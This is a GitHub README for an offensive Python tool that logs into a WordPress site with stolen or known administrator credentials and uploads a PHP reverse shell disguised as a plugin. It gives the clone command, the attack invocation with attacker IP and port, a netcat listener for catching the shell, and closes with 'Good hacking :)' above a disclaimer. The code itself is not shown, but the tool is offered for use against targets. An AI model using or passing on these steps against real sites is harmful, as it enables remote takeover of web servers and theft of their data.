 
<div align="center">

  <img src="https://github.com/Jsmoreira02/Pwn_wordpress/assets/103542430/6392fe40-bfff-4784-acfd-645ba2155574" height=130>
  
  <img src="https://img.shields.io/badge/Language%20-Python3-green.svg" style="max-width: 100%;">
  <img src="https://img.shields.io/badge/Tool%20-Shell upload | reverse shell-brown.svg" style="max-width: 100%;">
  <img src="https://img.shields.io/badge/Target OS%20-Linux-yellow.svg" style="max-width: 100%;">
  <img src="https://img.shields.io/badge/Hacking tool%20-teste?style=flat-square" style="max-width: 100%;">  
  <img src="https://img.shields.io/badge/Type%20-Script-red.svg" style="max-width: 100%;">

</div>

# Evil Wordpress Plugin (Malicious)

Malicious, remotely performs an upload of a PHP reverse shell in the form of a plugin on a WordPress site. The exploit is only successful with user credentials, so make sure you know the target username and password and check if the target user has Administrator permissions.

Install by running:

```bash
  git clone https://github.com/Jsmoreira02/_Malicious.git
```
    
## [Running Script]

### Attacking the Target Website: ###

![ezgif com-video-to-gif(1)](https://github.com/Jsmoreira02/Pwn_Wordpress/assets/103542430/532470ab-161f-487d-a59b-f3d0d7366c25)


- **The speed depends on your connection, check the stability of your connection in case there is a slowdown in execution**


```bash 
python3 Malicious.py -t http://<IP or domain_name> -u <Target Username> -p <Target Password> -L <LOCAL IP> -P <LOCAL PORT>

```

**Executing Handler**

```bash 
nc -lvp {LOCAL PORT}
```

**Help section (-h)**

```bash
usage: Malicious.py [-h] [-t] [-u] [-p] [-L] [-P]

Wordpress Malicious plugin upload

options:
  -h, --help        show this help message and exit
  -t , --target     Target URL
  -u , --username   Wordpress Username
  -p , --password   Wordpress Password
  -L , --LHOST      Attacker IP address
  -P , --LPORT      Attacker LOCAL PORT

./app.py -t http://domain_name.com/wordpress -u User_FOX -p Pass -L 192.168.20.2 -P 4040 

```


### In case of complications or disconnection issues, you can just manually trigger the connection at the URL link given by the program ###

 
***---> Correct Syntax: "http://IP/wordpress | Wrong syntax: http://IP/wordpress/ <---***

## 

- ***Good hacking :)***

# Warning:    
> I am not responsible for any illegal use or damage caused by this tool. It was written for fun, not evil and is intended to raise awareness about cybersecurity


